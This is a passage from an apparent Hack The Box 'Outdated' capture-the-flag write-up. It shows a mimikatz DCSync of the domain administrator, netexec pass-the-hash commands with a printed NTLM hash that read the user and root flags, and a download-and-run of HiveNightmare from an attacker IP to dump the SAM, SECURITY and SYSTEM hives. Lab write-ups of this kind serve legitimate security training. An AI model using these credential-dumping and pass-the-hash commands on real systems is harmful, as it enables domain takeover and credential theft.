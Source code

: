 ```bash
sideload /opt/Binarys/mimikatz.exe '"lsadump::dcsync /user:outdated\administrator /domain:outdated.htb"' "exit"
```

![image.png](/assets/Images/HTB_Outdated/image%2032.png)

One-Linear for getting User and root flags without even login manually

User.txt

```bash
nxc smb 10.129.229.239 -u Administrator -H '716f1ce2e2cf38ee1210cce35eb78cb6' -x 'powershell -c "Get-ChildItem -Path C:\users -Recurse -Force -Filter user.txt -ErrorAction SilentlyContinue | % { Write-Host \"Found at: $($_.FullName)\"; Get-Content $_.FullName }"'
```

Root.txt

```bash
nxc smb 10.129.229.239 -u Administrator -H '716f1ce2e2cf38ee1210cce35eb78cb6' -x 'type C:\Users\Administrator\Desktop\root.txt'
```

![image.png](/assets/Images/HTB_Outdated/image%2033.png)

---

## Beyond Administrator

There was one more method to get the btabels password and doing Shadow Credentials Attack

We have Read Access to SAM 

```bash
icacls C:\windows\system32\config\SAM
```

![image.png](/assets/Images/HTB_Outdated/image%2034.png)

Using HIveNightmare to get all the `sam`, `security`, `system` files

```bash
PS C:\Tools> iwr http://10.10.14.109/HiveNightmare.exe -OutFile HiveNightmare.exe
PS C:\Tools> .\HiveNightmare.exe
```
